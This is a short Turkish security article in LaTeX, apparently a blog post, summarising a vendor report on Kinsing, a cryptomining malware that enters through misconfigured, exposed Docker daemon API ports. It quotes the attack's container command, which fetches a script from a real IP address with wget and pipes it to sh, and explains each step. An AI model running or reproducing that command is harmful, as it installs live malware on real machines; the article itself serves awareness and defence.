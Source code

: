 \documentclass[11pt]{article}
\begin{document}
\section{Konteynerleri tehdit eden \href{https://blog.aquasec.com/threat-alert-kinsing-malware-container-vulnerability}{yeni bir zararlı yazılım}: Kinsing Malware}
\label{sec:org0a3da1c}
Linux çekirdeğinin içerisinde olan fakat Docker ile birlikte popülerliği
artmış olan konteyner yapısı artık günümüzde birçok şirket ve kurum tarafından
kullanılıyor. Yeni teknolojiler biz geliştiricilerin olduğu gibi kötü amaçlı
kişilerin de ilgisini çekiyor. Aqua isimli konteyner güvenliği üzerine çalışan
firmanın geçtiğimiz hafta blogunda yayınladığı yazı ile konteyner içerisinde
kripta para madenciliği yapan yeni bir malware ortaya çıktı. İsmine "Kinsing"
demişler.

Bu malware yazılımının sisteminize sızabilmesi için bir kriter var. O da
yanlış ayarlanmış ve açık bırakılmış Docker Daemon API'sinin portu. Kötü
amaçlı kişiler bu açık portu otomatik olarak bulan ve kendi amacı için
kullanan exploit geliştirmişler. Bu exploit'in yaptığı ilk iş yeni bir Ubuntu
konteyner'i oluşturmak ve içerisinde aşağıdaki komutu çalıştırmak:
\begin{verbatim}
/bin/bash -c apt-get update && apt-get install -y wget cron;service cron start; wget -q -O - 142.44.191.122/d.sh | sh;tail -f /dev/null
\end{verbatim}
GNU/Linux sistemlere aşina olmayanlar için açıklamak gerekirse bu komutun
yaptığı iş:
\begin{enumerate}
\item \texttt{apt-get update}: Tüm paket depolarını güncelliyor.
\item \texttt{apt-get install -y wget cron}: \textbf{wget} ve \textbf{cron} araçlarını kuruyor.
\item \texttt{wget -q -O - 142.44.191.122/d.sh | sh}: \textbf{wget}'i kullanarak asıl zararlı
yazılımı indiriyor ve çalıştırıyor.
\item \texttt{tail -f /dev/null}: /dev/null dosyasını sürekli yazdırarak konteyner'i
ayakta tutmaya çalışıyor.
\end{enumerate}

Asıl zararlı yazılım ise bazı güvenlik duvarlarını devre dışı bırakarak
kendini genişletmeye ve sistem kaynaklarınızı kullanarak kripto para
madenciliği yapıyor.
\end{document}
